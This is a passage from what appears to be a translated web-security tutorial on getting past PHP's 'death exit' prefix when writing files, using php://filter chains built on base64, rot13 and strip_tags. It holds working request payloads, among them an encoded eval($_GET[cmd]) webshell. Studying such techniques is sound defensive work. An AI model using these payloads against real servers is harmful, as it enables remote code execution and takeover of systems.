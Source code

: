 ```php
Payload:

?file=php://filter/convert.base64-decode/resource=H3rmesk1t.php
POST DATA
content=aPD9waHAgcGhwaW5mbygpOyA/Pg==
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527222810905.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

**rot13 encoding bypass: **
Using rot13 encoding is actually the same as base64 encoding bypass principle. As long as it becomes a code that cannot be recognized by PHP, it will not be executed.
 The premise is that PHP does not enable short_open_tag (short tag), and it is not enabled by default.

![Insert the picture description here](https://img-blog.csdnimg.cn/2021052722422210.png#pic_center)

```php
Payload:

<?php
$s = '<?php @eval($_GET[cmd]); ?>';
echo str_rot13($s)
?>
=>
<?cuc @riny($_TRG[pzq]); ?>

?file=php://filter/write=string.rot13/resource=test1.php
POST DATA
content=<?cuc @riny($_TRG[pzq]); ?>
```

![Insert the picture description here](https://img-blog.csdnimg.cn/20210527224411264.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**Nested bypass: **
The strip_tags() function strips the HTML, XML and PHP tags in the string (removed after php7.3)

>`string.strip_tags` can remove HTML, XML and PHP tags from stripped strings, and `<?php exit; ?>` is actually an XML tag. Since it is an XML tag, you can use the strip_tags function to remove it. Therefore, you can first encode the webshell with base64, and then base64-decode after calling strip_tags. Death exit is removed in the first step, while webshell is restored in the second step.

```php
Payload:

#php5
?file=php://filter/string.strip_tags|convert.base64-decode/resource=test2.php
POST DATA
content=?>PD9waHAgcGhwaW5mbygpOyA/Pg==
#Because <?php exit(); is not a complete tag, you need to add ?> to complete it
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527234732519.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

However, this method has limitations, because string.strip_tags will have segfaults in environments above php7.3, which will lead to unwritten. In environments of php5 or php7.2, it will not be affected by this.
